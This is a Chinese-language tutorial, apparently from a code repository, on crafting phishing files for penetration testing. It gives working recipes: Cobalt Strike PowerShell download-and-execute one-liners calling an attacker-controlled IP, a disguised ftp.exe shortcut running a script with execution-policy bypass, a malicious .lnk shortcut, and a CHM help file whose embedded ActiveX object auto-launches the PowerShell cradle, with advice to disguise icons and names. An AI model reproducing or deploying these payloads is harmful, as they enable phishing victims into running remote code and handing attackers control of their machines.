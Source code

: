 # 渗透测试 & 钓鱼文件

## 文档链接

### link链接

​	先在`CobaltStrike`上新建一个监听，接着选择攻击->`Web`攻击->`Web`投递，创建一个`powershell`的回连恶意链接。

```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.50.167:8000/update.exe'))"
```

![](img/1.png)

​	采用无参调用的方式来对`powershell`的回连恶意链接进行执行。先制作一个恶意的`dll`文件，其中的命令如下（`frp`中在语句前加`!`可以执行命令）：

```cmd
# 使用 powershell 策略中的 bypass 策略，这种方法不会改变配置或者要求写入磁盘，并且不会有任何的警告或提示，如果你使用 Unrestricted，在运行网上下载的未被签名的脚本时会有警告。
!cmd.exe /k powershell -exec bypass update.ps1
```

![](img/2.png)

​	接着创建一个`ftp.exe`的快捷方式，快捷方式的起始位置留空，目标为`C:\Winodws\System32\ftp.exe -""s:winsupdate.dll`，快捷方式的图标以及名字可以进行适当的伪装。

![](img/4.png)

![](img/3.png)

### link快捷方式

​	先查找一下`powershell.exe`的位置，这里选择`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`。

![](img/5.png)

​	依旧还是和之前一样创建一个`powershell`的回连恶意链接，创建`link`快捷方式，修改`powershell.exe`为绝对路径，快捷方式的目标为如下命令：

```shell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.50.167:8000/update.exe'))"
```

![](img/6.png)

### chm文档

​	利用`EasyCHM`来创建一个`chm`文件，`chm`文档钓鱼文件制作流程为：制作`html`->制作`chm`文件->伪装->打开`chm`上线。

​	创建`html`文件，代码如下：

```html
<html>
    <head>
        <title>Mousejack replay</title>
    </head>
    <body>
        command exec 
        <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
            <PARAM name="Command" value="ShortCut">
            <PARAM name="Button" value="Bitmap::shortcut">
            <PARAM name="Item1" value=',notepad.exe'>
            <PARAM name="Item2" value="273,1,1">
        </OBJECT>
        <SCRIPT>
            x.Click();
        </SCRIPT>
    </body>
</html>
```

​	接着利用`EasyCHM`制作`chm`文档，新建工程，工程目录选择上文`html`文件所在的文件夹。

![](img/7.png)

​	点击编译，生成`chm`文件。

![](img/8.png)

![](img/9.png)

​	尝试利用`CobaltStrike`木马加`CHM`文件上线，和上文一样，先在`CobaltStrike`上新建一个监听，接着选择攻击->`Web`攻击->`Web`投递，创建一个`powershell`的回连恶意链接。将生成好的`powershell`命令替换掉之前的`notepad.exe`：

```html
<html>
    <head>
        <title>Mousejack replay</title>
    </head>
    <body>
        command exec 
        <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
            <PARAM name="Command" value="ShortCut">
            <PARAM name="Button" value="Bitmap::shortcut">
            <PARAM name="Item1" value=",powershell.exe,-nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://192.168.1.103:8078/a'))">
            <PARAM name="Item2" value="273,1,1">
        </OBJECT>
        <SCRIPT>
            x.Click();
        </SCRIPT>
    </body>
</html>
```

​	接着和上文一样的步骤编译`CHM`文件，打开运行。

![](img/10.png)









